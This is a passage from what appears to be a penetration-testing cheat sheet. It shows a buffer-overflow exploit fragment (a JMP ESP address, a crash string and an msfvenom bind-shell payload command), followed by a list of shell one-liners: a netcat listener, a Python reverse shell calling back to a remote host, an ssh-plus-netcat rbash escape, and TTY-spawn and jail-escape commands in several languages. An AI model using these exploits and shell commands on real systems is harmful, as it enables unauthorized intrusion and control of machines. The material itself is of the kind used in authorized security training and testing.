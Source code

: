     *   Check for “Bad Characters” Process of elimination - Run multiple times 0x00 - 0xFF

    *   Find JMP ESP address  
        "\x97\x45\x13\x08" # Found at Address 08134597

    *   crash = "\x41" * 4368 + "\x97\x45\x13\x08" + "\x83\xc0\x0c\xff\xe0\x90\x90"

    *   msfvenom -p linux/x86/shell_bind_tcp LPORT=4444 -f c -b "\x00\x0a\x0d\x20" –e x86/shikata_ga_nai

    *   Connect to the shell with netcat:  
        nc -v $ip 4444

# [](#shells)Shells

*   Netcat Shell Listener

    `nc -nlvp 4444`

*   Spawning a TTY Shell - Break out of Jail or limited shell You should almost always upgrade your shell after taking control of an apache or www user.

        (For example when you encounter an error message when trying to run an exploit sh: no job control in this shell )

        (hint: sudo -l to see what you can run)

    *   You may encounter limited shells that use rbash and only allow you to execute a single command per session. You can overcome this by executing an SSH shell to your localhost:

              ssh user@$ip nc $localip 4444 -e /bin/sh
              enter user's password
              python -c 'import pty; pty.spawn("/bin/sh")'
              export TERM=linux

    `python -c 'import pty; pty.spawn("/bin/sh")'`

               python -c 'import socket,subprocess,os;s=socket.socket(socket.AF\_INET,socket.SOCK\_STREAM);          s.connect(("$ip",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(\["/bin/sh","-i"\]);'

    `echo os.system('/bin/bash')`

    `/bin/sh -i`

    `perl —e 'exec "/bin/sh";'`

    perl: `exec "/bin/sh";`

    ruby: `exec "/bin/sh"`

    lua: `os.execute('/bin/sh')`

    From within IRB: `exec "/bin/sh"`

    From within vi: `:!bash` or

    `:set shell=/bin/bash:shell`

    From within vim `':!bash':`
